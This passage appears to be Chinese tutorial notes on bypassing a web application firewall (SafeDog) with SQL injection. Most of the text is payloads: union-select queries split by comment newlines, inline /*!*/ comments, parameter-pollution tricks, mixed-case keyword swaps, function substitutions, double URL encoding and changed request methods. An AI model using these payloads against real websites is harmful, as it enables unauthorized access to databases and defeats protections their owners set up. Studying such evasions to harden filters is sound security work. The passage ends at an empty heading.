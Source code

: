 ```mysql
select * from users where id=-1 /*%0a*/union/*%0a*/select/*%0a*/1,2,3
相当于
union
select
1,2,3

select * from users where id=-1 union%23a%0Aselect 1,2,3%23   // select a union的组合可以将安全狗屏蔽掉
相当于
union #a

select 1,2,3#
```

#### 内联注释绕过`/*!*/`原理

`/*!*/`符号内语句不会注释，可以正常的执行。

`/*!select * from users*/`的结果如下：

![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/973eec3ae8780068054370c04685751813422942.png@527w_419h_progressive.webp)

- `/** #*/`原理

  比如`id=1/**&id=-1 union select 1,2,3#*/`

  安全狗检测到的：`id=1`，以为`/***/`里面是注释不执行

  但是Apache检测到的：`-1 union select 1,2,3#*/` 会以后一个id值为准

### 应用层

#### 大小写/关键字替换

```
id=1 UnIoN/**/SeLeCT 1,user()
Hex() bin() 等价于ascii()
Sleep() 等价于 benchmark()
Mid()substring() 等价于 substr()
@@user 等价于 User()
@@Version 等价于 version()
```

#### 编码解码及加密解密

hex,urlcode,base64等

比如关键字全部被拦截，那么尝试使用URL全编码的方式绕过拦截。由于服务器会自动对URL进行一次URL解码， 所以需要把关键词编码两次，这里需要注意的地方是，URL编码需选择全编码，而不是普通的URL编码。

#### 更改请求提交方式

GET POST COOKIE等

POST->multipart/form-data

#### 中间件HPP参数污染
